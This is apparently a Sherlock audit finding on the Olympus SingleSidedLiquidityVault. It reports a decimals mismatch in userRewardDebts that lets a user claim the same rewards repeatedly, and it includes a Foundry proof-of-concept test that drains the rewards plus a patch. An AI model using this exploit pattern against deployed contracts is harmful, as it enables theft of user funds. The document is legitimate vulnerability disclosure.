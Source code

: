Bahurum

high

# `userRewardDebts` incorrectly updated in `_claimInternalRewards()`

## Summary
In `_claimInternalRewards()` the `userRewardDebts` is updated with the wrong number of decimals. This causes an incorrect calculation in `_withdrawUpdateRewardState()` that always sets `userRewardDebts` to 0 so the claimed rewards are never accounted for. This allows an attacker to call `withdraw()` multiple times and each time receive the full claim until there are no more rewards available. This applies also to external rewards.

## Vulnerability Detail
In [`_claimInternalRewards()`](https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L628):
```solidity
userRewardDebts[msg.sender][rewardToken] += reward;
```
`reward` is in 18 decimals while `userRewardDebts` is in 36 decimals. This means that `userRewardDebts` is much more smaller than expected and in `_withdrawUpdateRewardState()`, during the accounting for claimed rewards, the condition `rewardDebtDiff > userRewardDebts[msg.sender][rewardToken.token]` will be true even when it shouldn't and `userRewardDebts[msg.sender][rewardToken.token]` is set to zero instead of being reduced. This makes `internalRewardsForToken()` return the same value as before withdrawing. The rewards should be claimable only once but this allows to claim many times.

## PoC

In the test below (for the forked environment) Alice should be able to claim only 5e18 rewards tokens but can claim 25e18 reward tokens.

```solidity
        function testDrainRewards() public {
        console2.log("Amount of LDO in pool:", ldo.balanceOf(address(liquidityVault)));
        
        // bob and alice deposit 1 wsteth each and 10 secs pass
        vm.prank(bob);
        liquidityVault.deposit(WSTETH_AMOUNT, 0);
        vm.prank(alice);
        liquidityVault.deposit(WSTETH_AMOUNT, 0);
        vm.warp(block.timestamp + 10); // Increase time 10 seconds so there are rewards
  
        // Get alice lp position
        uint256 aliceLpPosition = liquidityVault.lpPositions(alice);
        // Get bob lp position
        uint256 bobLpPosition = liquidityVault.lpPositions(alice);

        console2.log("Initial alice reward debt: ", 
            liquidityVault.userRewardDebts(alice, address(ldo)));

        // alice Withdraws and claims in chunks
        uint nChunks = 5;
        for (uint i; i<nChunks; i++){
            console2.log("userRewardDebts for alice:" , 
                liquidityVault.userRewardDebts(alice, address(ldo)));
            console2.log("available to withdraw for alice:" , 
                liquidityVault.internalRewardsForToken(0, alice));
            vm.prank(alice);
            liquidityVault.withdraw(aliceLpPosition/nChunks, minTokenAmounts_, true);
        }

        // bob Withdraw and claim but no more withdrawals available so reverts
        vm.expectRevert();
        vm.prank(bob);
        liquidityVault.withdraw(bobLpPosition, minTokenAmounts_, true);

        console2.log("Final alice reward debt: ", 
            liquidityVault.userRewardDebts(alice, address(ldo)));

        console2.log("rewards obtained by alice:", ldo.balanceOf(alice));
        console2.log("rewards obtained by bob:", ldo.balanceOf(bob));
        // Verify end state
        // assertEq(liquidityVault.userRewardDebts(alice, address(ldo)), 0);
    }
```
## Impact
All internal and external rewards can be stolen.

## Code Snippet
https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L628

https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L641

## Tool used

Manual Review

## Recommendation
A quick fix is to convert the added rewards to 36 decimals:

```solidity
-   userRewardDebts[msg.sender][rewardToken] += reward;
+   userRewardDebts[msg.sender][rewardToken] += reward * 1e18;
```

both in `_claimInternalRewards()` and `_claimExternalRewards()`.

Consider converting instead all variables that represent rewards into 18 decimals.
